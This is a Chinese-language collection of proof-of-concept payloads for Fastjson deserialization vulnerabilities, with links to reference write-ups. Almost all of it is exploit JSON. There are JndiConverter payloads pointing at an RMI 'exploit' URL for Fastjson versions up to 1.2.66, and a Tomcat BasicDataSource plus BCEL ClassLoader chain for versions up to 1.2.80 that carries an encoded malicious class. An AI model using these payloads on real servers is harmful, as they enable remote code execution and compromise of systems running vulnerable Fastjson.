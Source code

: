   
参考链接  
https://blog.csdn.net/LTianHang/article/details/130912591  
### Fastjson <=1.2.62 和 <=1.2.66版本  

```
{  
&#34;@type&#34;:&#34;org.apache.xbean.propertyeditor.JndiConverter&#34;,  
&#34;AsText&#34;:&#34;rmi://127.0.0.1:1099/exploit&#34;
}&#34;;
```


```
{  
&#34;@type&#34;:&#34;org.apache.xbean.propertyeditor.JndiConverter&#34;,  
&#34;AsText&#34;:&#34;rmi://127.0.0.1:1099/exploit&#34;
}&#34;;
```

  
FastJson <= 1.2.80  
  
利用poc只能用项目中调用的组件和类文件  

```
{    
&#34;a&#34;: {        
&#34;@type&#34;: &#34;java.lang.Class&#34;,        
&#34;val&#34;: &#34;org.apache.tomcat.dbcp.dbcp2.BasicDataSource&#34;    
},   
&#34;b&#34;: {        
&#34;@type&#34;: &#34;java.lang.Class&#34;,        
&#34;val&#34;: &#34;com.sun.org.apache.bcel.internal.util.ClassLoader&#34;    
},    
&#34;c&#34;: {       
&#34;@type&#34;: &#34;org.apache.tomcat.dbcp.dbcp2.BasicDataSource&#34;,        
&#34;driverClassLoader&#34;: {            
&#34;@type&#34;: &#34;com.sun.org.apache.bcel.internal.util.ClassLoader&#34;        
},        
&#34;driverClassName&#34;: &#34;$$BECL$$$l$8b$I$A$A$A$A$A$A$AeP$bbN$CA$U$3d$D$cb$O$ac$8b$bc$c47$sV$82$854v$Q$h$a3$W$e2$pb$b4$k$c6$J$Z$5cv$c92$Y$fe$c8$9aF$8d$85$l$e0G$Z$efl$M$908$c5$7d$9c$c7$bd7$f3$fd$f3$f9$F$e0$Y$7b$k8J$k$ca$a8d$b1fs$95c$9dc$83c$93$c1m$ebP$9b$T$86t$bd$f1$c0$e0$9cFO$8a$a1$d0$d1$a1$ba$9e$M$7b$w$be$X$bd$80$90l$5b$G$7f$ca$7c$d7$I$f9$7c$rF$JE$b3$Y$bcn4$89$a5$3a$d7$89TMGG$D$f1$o$7cd$91$e3$d8$f2$b1$8d$j$9a$zE$m$7d$ec$a2$c6P$b1$7c3$Qa$bfy6$95jdt$U$d2$N$e4d$u$$$b8$9b$de$40I$c3PZ$40w$93$d0$e8$n$ad$f1$fa$ca$cc$9bj$bd$d1$f9$a7i$d1N5U$92$e1$a0$be$c4vM$ac$c3$7ek$d9p$hGR$8d$c7$z$ec$c3$a5$df$b2$_$Ff$cf$a7$e8QW$a3$cc$ug$O$df$c1fT0$acPt$T$d0$K$fd$b9$f4$o$b1$C$ab$lH$95$d3op$k_$e1$5c$ce$S$yG$ba$M$f1$d6$5b$86C$d1$n$ccM$d0$3c$z$ce$T$c2$91$eap$ac$da$b1$85$e4$8e$e2$_$M$c2$l$G$cb$B$A$A&#34;    
}}
```

### bit4woo师傅的反序列化集合  
  
https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E4%B8%83%EF%BC%9Afastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96PoC%E6%B1%87%E6%80%BB.md  
#### 基于com.sun.rowset.JdbcRowSetImpl的PoC1  
  